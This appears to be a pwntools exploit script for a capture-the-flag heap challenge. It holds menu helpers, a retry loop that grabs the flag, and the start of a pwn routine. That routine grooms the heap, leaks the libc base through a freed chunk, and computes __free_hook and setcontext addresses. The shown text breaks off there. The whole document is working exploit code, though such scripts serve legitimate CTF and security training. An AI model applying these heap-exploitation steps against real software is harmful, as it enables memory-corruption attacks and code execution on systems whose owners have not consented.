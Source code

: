 ```
        elf = target.elf
        libc = target.libc
    assert isinstance(elf, ELF)
    assert isinstance(libc, ELF)
    try_count = 0
    while try_count &lt; 3:
        try_count += 1
        try:
            pwn(sh, elf, libc)
            break
        except KeyboardInterrupt:
            break
        except EOFError:
            if target is not None:
                sh = target.get_sh()
                target.sh = sh
                if target.connect_fail:
                    return 'ERROR : Can not connect to target server!'
            else:
                sh = get_sh()
    flag = get_flag(sh)
    return flag


def choice(idx):
    sh.sendlineafter("&gt;&gt; ", str(idx))


def add(size, content):
    choice(1)
    sh.sendlineafter("Size: ", str(size))
    sh.sendlineafter("Content: ", str(content))


def edit(idx, content):
    choice(2)
    sh.sendlineafter("Index: ", str(idx))
    sh.sendlineafter("Content: ", str(content))


def show(idx):
    choice(4)
    sh.sendlineafter("Index: ", str(idx))


def delete(idx):
    choice(3)
    sh.sendlineafter("Index: ", str(idx))


def pwn(sh, elf, libc):
    context.log_level = "debug"
    add(0x418, '0')
    add(0x418, '1')
    add(0x428, '2')
    add(0x428, '3')
    delete(2)
    add(0x450, '4')
    show(2)
    libc_base = get_address(sh, True, info="libc_base:\t", offset=-0x1e3ff0)

    free_hook_addr = libc_base + 0x1e6e40
    setcontext_addr = libc_base + 0x53030
```